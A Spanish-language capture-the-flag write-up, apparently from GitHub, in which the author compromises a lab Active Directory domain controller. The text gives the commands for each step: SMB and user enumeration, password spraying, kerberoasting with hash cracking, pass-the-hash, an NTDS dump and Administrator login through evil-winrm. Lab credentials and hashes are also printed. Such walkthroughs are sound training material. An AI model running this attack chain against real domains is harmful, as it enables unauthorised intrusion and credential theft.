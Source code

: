 # DC-01
![image](https://github.com/user-attachments/assets/9005e5aa-7dd4-46e7-9d63-83443c00029b)

## Reconocimiento
Lo primero que tenemos que hacer es identificar nuestro objetivo, ver la IP del DC.
En mi caso, lo hago con la herramienta netdiscover
```
ip a
```
![image](https://github.com/user-attachments/assets/39e54115-3ae2-40fd-8d13-f576429bd22b)

```
sudo netdiscover -i eth0 -r 14.14.1.0/24
```
Una vez identificamos el host, con IP 14.14.1.28, vamos  a realizar un escaneo de puertos con la herramienta NMAP, en concreto voy a utilizar mi herramienta automatizada para escaneos de NMAP [autonmap](https://github.com/BanYio/AutoNMAP).

![image](https://github.com/user-attachments/assets/a4b4b727-8b1a-4c88-93df-817e7939adf0)

Como era de esperar, al ser un DC hay muchos puertos abiertos, de momento nos vamos a centrar en kerberos (88), rpc (135), smb (445), ldap (389) y por último, vemos que tiene habilitado el puerto 5985, winrm.

![image](https://github.com/user-attachments/assets/8707c1c7-09a5-4e3f-a220-5df923d4e4c4)

Lo primero que he hecho ha sido identificar el dominio y añadirlo en el fichero /etc/hosts
```
crackmapexec smb 14.14.1.28
```
![image](https://github.com/user-attachments/assets/34b3b5a8-1b30-43d3-b9a1-682adbfcfe49)

Tras intentar enumerar usuarios mediante LDAP, rpcclient o smb con null sessions o incluso con la herramienta kerbrute para ver usuarios válidos del dominio, no ha habido suerte, por lo que he listado las carpetas compartidas y en un primer momento no he visto nada interesante, por ello es muy importante realizar las enumeraciones con distintas herramientas.

```
smbclient -L //14.14.1.28/ -N
crackmapexec smb 14.14.1.28 -u '' -p '' –shares
crackmapexec smb 14.14.1.28 -u 'banyio' -p '' –shares
```
![image](https://github.com/user-attachments/assets/168342b4-5d0c-460a-8224-6f925b46ee22)

Como podemos ver, hay muchas carpetas compartidas, pero solo tenemos permisos de lectura para IPC.
Vamos a realizar alguna búsqueda a ver que podemos enumerar con este recurso compartido, y en [hacktricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-smb) encontramos que hay una herramienta de impacket, lookupsid con la cual podemos enumerar los usuarios del domino.
```
impacket-lookupsid banyio@14.14.1.28
```
![image](https://github.com/user-attachments/assets/8d84a455-96ff-47ac-abec-8bfe20a27440)
 
Como podemos observar, nos aparecen todos los usuarios, pero con un formato incómodo para poder realizar otras tareas de enumeración mas adelante, por lo que vamos a sanitizar este output.
```
impacket-lookupsid banyio@14.14.1.28 | awk -F '\\' '{print $2}' | awk '{print $1}' > users.txt
```
![image](https://github.com/user-attachments/assets/6045630e-9fe9-4c4a-8ea6-f7fc94345517)

## EXPLOTACION
Ahora tenemos una lista de usuarios del dominio, por lo que podemos intentar a ver si alguno de estos usuarios es vulnerable a un ataque as-rep roasting, o realizar un password spraying al smb con credenciales por defecto.
```
crackmapexec smb 14.14.1.28 -u users.txt -p users.txt –no-brute
```
![image](https://github.com/user-attachments/assets/e4c13793-a146-4452-a752-0396f251d852)

Tenemos unas credenciales validas. 

**ybob317:ybob317**

Vamos a comprobar carpetas compartidas con estas credenciales y ver si tenemos acceso mediante winrm
```
crackmapexec smb 14.14.1.28 -u ybob317 -p ybob317 –shares
crackmapexec winrm 14.14.1.28 -u ybob317 -p ybob317
```
![image](https://github.com/user-attachments/assets/212cf5f7-e6fb-414f-a560-241ba014732b)

No vemos nada interesante, por lo que vamos a ayudarnos de herramientas como bloodhound o ldapdomaindump para realizar escalada de privilegios o movimientos laterales.
```
bloodhound-python -d soupedecode.local -v --zip -c All -ns 14.14.1.28 -u ybob317 -p 'ybob317'
```
![image](https://github.com/user-attachments/assets/8d6a4256-0b3c-4c85-8316-f1b509fb583d)

Vemos que nos aparece un error DNS, vamos a intentar solucionarlo.
Para solucionarlo vamos a fakear un DNS server con la herramienta dnschef
```
git clone https://github.com/iphelix/dnschef.git
cd dnschef
sudo python3 dnschef.py --fakeip 14.14.1.28
bloodhound-python -d soupedecode.local -v --zip -c All -ns 127.0.0.1 -u ybob317 -p 'ybob317' -dc dc01
```
![image](https://github.com/user-attachments/assets/686c27a1-45da-4ebc-9ebd-993d6d435cc3)

Ya tenemos el reporte de bloodhound
 
Abrimos bloodhound, iniciamos la consola de neo4j y subimos el .zip al bloodhound.
![image](https://github.com/user-attachments/assets/6dc554a2-36be-4d75-9391-9061fd27e46f)

## ESCALADA DE PRIVILEGIOS
Una vez tenemos todos los datos subidos al bloodhound, podemos empezar a buscar posibles vectores para escalar privilegios, si listamos los usuarios kerberoastables, vemos lo siguiente;
![image](https://github.com/user-attachments/assets/1ea56f76-35aa-4985-9166-d43cd6e4e23b)

Todos esos usuarios son vulnerables a un ataque kerberoast, por lo que vamos a realizarlo con la herramienta de impacket-getusersspns
```
impacket-GetUserSPNs -dc-ip 14.14.1.28 soupedecode.local/ybob317:ybob317
```
![image](https://github.com/user-attachments/assets/2b46ffd4-168d-47b3-b9b6-9fdbf95534e6)

Aquí vemos los usuarios vulnerables, y para capturar el hash ntlmv2, le tenemos que pasar el parámetro -outputfile
```
impacket-GetUserSPNs -dc-ip 14.14.1.28 soupedecode.local/ybob317:ybob317 -outputfile kerb.hash
```
![image](https://github.com/user-attachments/assets/5752899f-0098-4025-b93a-9614b8dfa72a)

Aquí vemos un error que se soluciona cambiando el ntp.
```
sudo ntpdate 14.14.1.28
```
Volvemos a ejecutar de nuevo el comando y vemos que se han capturado todos los hashes.
Vamos a crackearlos con johntheripper
```
john --wordlist=/usr/share/wordlists/rockyou.txt kerb.hash
```
![image](https://github.com/user-attachments/assets/4695b320-8bd0-45c9-936a-5b6c0b99e4fb)

Como podemos observar, solo nos saca 1 contraseña, y no vemos a que cuenta pertenece.
Para identificar a quien pertenece esa contraseña, utilizaremos crackmapexec.
```
crackmapexec smb 14.14.1.28 -u users.txt -p 'Password123!!'
```
![image](https://github.com/user-attachments/assets/cf934ad9-4ea3-44d1-b065-ff06d6460d73)

Tenemos nuevas credenciales;

**file_svc:Password123!!**

Con estas nuevas credenciales, vamos a volver a listar las carpetas compartidas, a ver si hay alguna novedad.
```
crackmapexec smb 14.14.1.28 -u file_svc -p 'Password123!!' –shares
```
![image](https://github.com/user-attachments/assets/2d608f9b-533c-4c71-bc36-cf7557d7dda9)
 
Como podemos ver, este usuario tiene permisos de lectura sobre la carpeta backup, vamos a ver que hay dentro
```
smbclient //14.14.1.28/backup -U file_svc
```
![image](https://github.com/user-attachments/assets/5f3147ec-8d37-41e6-8650-7f4f5c8ed8e3)

Nos encontramos con un fichero; backup_extract.txt que parece tener muchos usuarios y hashes ntlmv1, con los que podemos realizar la técnica de pass the hash, vamos  a comprobar si hay alguna credencial válida
```
cat backup_extract.txt | awk -F ':' '{print $1 > "svc_users.txt"; print $4 > "hashes.txt"}'
```
![image](https://github.com/user-attachments/assets/0e852a22-d090-4aa1-8656-b4de9ee6610e)

```
crackmapexec smb 14.14.1.28 -u svc_users.txt -H hashes.txt --continue-on-success --no-brute
```
![image](https://github.com/user-attachments/assets/01ca8ce5-c396-4bd7-99d0-6747c2fa3a0e)

Como podemos ver, gracias al Pwned!, hemos comprometido la maquina, ya que significa que tenemos privilegios!
Vamos a dumpear el NTDS para sacar las credenciales de Administrator
```
crackmapexec smb 14.14.1.28 -u FileServer$ -H e41da7e79a4c76dbd9cf79d1cb325559 –ntds
```
![image](https://github.com/user-attachments/assets/d09bec01-c58d-4873-bd19-80ac8e0620d4)
 
Tenemos las credenciales de Administrator!
``` 
evil-winrm -i 14.14.1.28 -u 'Administrator' -H '88d40c3a9a98889f5cbb778b0db54a2f'
```
![image](https://github.com/user-attachments/assets/7ec7fcfe-25d4-4eed-b037-bfe94ad62de6)

Ahora ya podemos leer las flags de esta maquina
![image](https://github.com/user-attachments/assets/2bfeda6e-04ca-41b3-b9a7-1c2afbb82258)

